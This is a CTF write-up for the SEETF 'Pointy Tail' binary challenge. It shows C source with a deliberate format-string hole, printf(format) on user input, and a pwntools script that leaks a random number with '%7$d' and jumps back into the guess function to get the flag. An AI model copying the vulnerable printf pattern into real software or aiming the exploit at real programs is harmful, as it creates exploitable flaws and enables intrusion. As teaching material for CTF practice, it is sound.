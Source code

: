 ## Pointy Tail
![pointytail](images/4mats.png)

### Description
>Author: Enyei\
>ets get to know each other\
>nc fun.chall.seetf.sg 50001\
>For beginners:\
>https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/ \
>MD5: ceb6336c44a38f093de9bfb3e3902a0

### Introduction
This is just a basic formatstring vuln challenge. The source code was given, and it look like this.
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		read(0, format, 64);
                printf("Same! I love \n");
		printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
```

We can leak the **fav_num** with formatstring vuln at offset 7, just input `%7$d`.\
![pointytail](images/4mats2.png)
For prevent **fav_num** to random again, we need set the **set** value to 4 first then leak the favnum.\
After that just input anything but not 1 or 2, the it will jump to default and because set value was 4, it will go to **mat4** and call the **guess_me()** function.\
Now just input the number and got the flag.

Full script:

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./vuln")
p = process("./vuln")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50001

cmd = """
b*main
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

p.sendline(b'Linz')
for i in range(4):
	p.sendline(b'1')
	p.sendline(b'123')

p.sendline(b'2')
p.sendlineafter(b"?\n", b'%7$d')

p.interactive()
```